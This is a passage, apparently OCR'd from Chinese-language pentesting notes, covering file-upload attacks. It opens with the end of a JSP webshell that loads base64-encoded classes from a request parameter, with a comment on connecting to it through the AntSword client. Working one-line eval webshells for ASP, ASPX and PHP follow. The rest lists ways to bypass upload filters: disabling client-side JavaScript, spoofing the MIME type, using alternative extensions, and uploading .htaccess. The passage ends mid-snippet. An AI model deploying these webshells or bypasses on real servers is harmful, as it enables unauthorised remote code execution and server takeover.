 ```jsp
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("ant");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>


<!-- 使用蚁剑连接，密码ant，编码选base64-->
```

asp : `<% eval request("lzx")%>`  

aspx: `<%@ Page Language="Jscript"%><%eval(Request.Item["lzx"],"unsafe");%>`  

php : 

```php
1. <?php @eval($_POST['lzx']);?>    //提供了一个代码执行的环境
2. <script language="php">@eval_r($_POST['pwd'])</script>    7.0以上		php无效
```
### **客户端js校验绕过**
- 修改或禁用js，或者抓包修改文件后缀。
-  判断方法，没有流量经过burpsuite就提示错误
### **服务器端校验绕过**
- **服务端对数据包的MIME进行检查！**
    - 文件头content-type字段校验（image/gif）
    - 配置Burp Suite代理进行抓包，将Content-Type修改为image/gif，或者其他允许的类型。
- **服务器端检测文件名后缀**
  - 黑名单检测
    - **文件名大小写绕过**：使用Asp、PhP之类的文件名绕过黑名单检测
    - **名单列表绕过**：
        - 用黑名单里没有的名单进行攻击，asp asa cer aspx。
        - jsp jspx jspf
        - php3,phtml.phps.php5,pht,可能虽然上传成功了，能解析必须满足:  
            Apache的 httpd.conf 中有如下配置代码：
            `AddType application/x-httpd-php .php .phtml .phps .php5 .phtml`
    - **上传 .htaccess 伪静态文件**，  
    （适用于黑名单检测方式，黑名单中未限制.htaccess）  
    该文件仅在Apache平台上存在，IIS平台上不存在该文件，该文件默认开启，启用和关闭在httpd.conf文件中配置。  
    该文件的写法如下：
    用伪静态需要保证：①mod_rewrite模块开启；②目录设置是AllowOverride All；
        ```
        <FilesMatch "liudehua"> 
        